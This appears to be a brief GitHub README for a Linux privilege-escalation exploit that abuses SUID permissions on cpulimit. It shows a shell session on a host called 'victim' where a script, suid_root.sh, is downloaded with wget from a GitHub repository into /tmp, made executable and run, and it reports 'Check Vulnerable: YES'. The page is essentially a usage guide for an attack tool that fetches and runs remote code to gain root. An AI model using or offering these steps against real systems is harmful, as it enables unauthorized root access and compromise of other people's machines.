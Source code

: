 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 
```

**Check Vulnerable**

`YES`

![](/01.png)

